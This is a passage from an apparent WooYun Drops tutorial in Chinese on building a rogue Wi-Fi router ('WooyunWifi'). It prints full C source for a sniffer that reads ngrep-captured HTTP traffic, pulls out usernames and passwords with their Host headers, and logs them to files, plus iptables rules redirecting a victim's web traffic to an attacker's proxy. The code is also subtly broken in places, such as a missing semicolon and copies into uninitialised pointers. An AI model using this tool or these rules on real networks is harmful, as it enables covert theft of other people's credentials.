
使用 tail 就可以实现实时输出

## 0x03 自动机设计：

* * *

以 passsniff 为例介绍 C 语言自动机设计：

```
/*
    code by lxj616@wooyun
*/
#include <stdlib.h>
#include <errno.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <stdio.h>
#include <unistd.h>

//Openwrt 默认权限可以读写 etc 下文件
void get_basepath(char *basepath)
{
    FILE *fp1;
    fp1 = fopen("/etc/wooyunwifi/basepath.conf","r");
    fscanf(fp1,"%s",basepath);  
    fclose(fp1);
}

//解析 URL 中用户名和密码
void strip_pass(char *basepath,char *buffer,char *host)
{
    int i;
    int flag=0;
    char *user;
    char *pass;
    user=strstr(buffer,"user");
    pass=strstr(buffer,"pass");

    if(user&&pass)
    {
        user=strstr(user,"=")+1;
        pass=strstr(pass,"=")+1;

        for(i=0;user[i]!='\0'&&flag==0;i++)
        {
            if(user[i]=='&')
            {
                user[i]='\0';
                flag=1;
            }
        }
        flag=0;
        for(i=0;pass[i]!='\0'&&flag==0;i++)
        {
            if(pass[i]=='&')
            {
                pass[i]='\0';
                flag=1;
            }
        }
    }
    else 
    {
        strcpy(user,"unknown");     strcpy(pass,"unknown");     }   update_log(basepath,host,user,pass); } 
//写文本文件保存信息
void writeLog(char *path,char *user,char *pass)
{
    FILE *fp = fopen(path,"a");
    fputs("\r\n",fp);
    fputs(user,fp);
    fputs("\r\n",fp)
    fputs(pass,fp);
    fputs("\r\n",fp);
    fflush(stdout);
    fclose(fp);
}

//写文件，以 host 命名，因为是直接读的 Host: ***.com，因此去掉前面的前缀
void update_log(char *basepath,char *host,char *user,char *pass)
{
    char tmppath[1629];
    strcpy(tmppath,basepath);
    strcat(tmppath,"/passdump/");
    writeLog(strcat(tmppath,host+6),user,pass);
}

int main()
{
    char basepath2[128];
    char basepath[128];
    char buffer[1629]="0";
    char pass[1629]="0";
    char pass2[1629]="0";
    char host[1629]="0";
    char host2[1629]="0";
    int flag=0;

    char mkdir[128]="mkdir "; 

    get_basepath(basepath);

    strcat(mkdir,basepath);
    strcat(mkdir,"/passdump");

    //先保证存在保存的文件夹
    system(mkdir);

    while(1)
    {
        fgets(buffer,1628,stdin);
        //如果是空行，代表一个数据包结束 或者 紧接着 POST 内容
        if(strcmp(buffer,"\n")==0)
        {
            //已经出现了记录？写文件然后清空当前密码记录
            if((strcmp(host,"0")!=0)&&(strcmp(pass,"0")!=0))
            {
                //干掉 referer，免得一个密码记录好多次
                if(!strstr(pass,"Referer:"))
                {
                    strip_pass(basepath,pass,host);
                    printf("\n\n");
                }
                strcpy(pass,"0");
            }
        }
        else if(strstr(buffer,"Host:"))
        {
            //去掉 0x0a 和 0x0d
            buffer[strlen(buffer)-2]='\0';
            strcpy(host,buffer);
        }
        else if(strstr(buffer,"user")&&strstr(buffer,"pass"))
        {
            //去掉 0x0a 和 0x0d
            buffer[strlen(buffer)-2]='\0';
            strcpy(pass,buffer);
        }
        //buffer[strlen(buffer)-2]='\0';
    }
    return 0;
} 
```

概括起来我们的自动机做了以下事情：

1、 Ngrep 嗅探 PHP 指定的 device 数据包，筛选 80 端口 HTTP 请求，然后把 stdout 转接到我们的自动机 stdin 上
2、 C 语言自动机不断按行读取 stdin 中的输入，不停检测密码信息以及 Host 信息，但数据包结束后，判断是否截获密码信息，如果是，追加写入文本记录文件
3、 自动机本身不会停止工作，必须依靠 PHP+Shellscript 来外部 kill 掉

## 0x04 为什么不用 python：

* * *

字符处理，还是 python 方便，但是我们真的很需要“效率”，无论是从内存占用还是数据包延迟来说，C 语言仍然占据了不可替代的优势（其实也没那么悬殊，只不过自动机程序比较简单，因此对 C 熟练的话不会很吃力） 还有一个重要的原因是：当初我以为会涉及到 kernel 的数据包修改，后来写完自动机才发现原来想多了，所以 C 语言反倒只用来写了几个自动机，唉……

## 0x05 使用 iptables 重定向流量

例：

```
iptables -t nat -A PREROUTING -s 192.168.16.249 -p tcp --dport 80 -j DNAT --to-destination 192.168.16.134:8029
iptables -t nat -A POSTROUTING -p tcp -d 192.168.16.134 --dport 80 -j MASQUERADE
iptables -t nat -A POSTROUTING -p tcp -d 192.168.16.134 --dport 8029 -j MASQUERADE 
```

由此一方面可以将流量重定向到自己的 proxy 上（是 transparrent proxy），也可以直接转发到其他 ip（如 burpsuite）

至此，WooyunWifi 设计完成，大家可能会觉得“哇，还是很简单的嘛”，如果大家真的打算试一下全过程，请务必要看《WooyunWifi 第五章：十万个变砖方法》

版权声明：未经授权禁止转载 [lxj616](http://drops.wooyun.org/author/lxj616 "由 lxj616 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Dionaea 低交互式蜜罐部署详解](http://drops.wooyun.org/tips/640)
*   [WebView 中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)
*   [一种新的攻击方法——Java-Web-Expression-Language-Injection](http://drops.wooyun.org/tips/2494)
*   [SVN 安装配置及安全注意事项](http://drops.wooyun.org/tips/352)
*   [RansomWeb:一种新兴的 web 安全威胁](http://drops.wooyun.org/papers/4834)
*   [使用 WiFi 真的有那么危险吗？](http://drops.wooyun.org/tips/1265)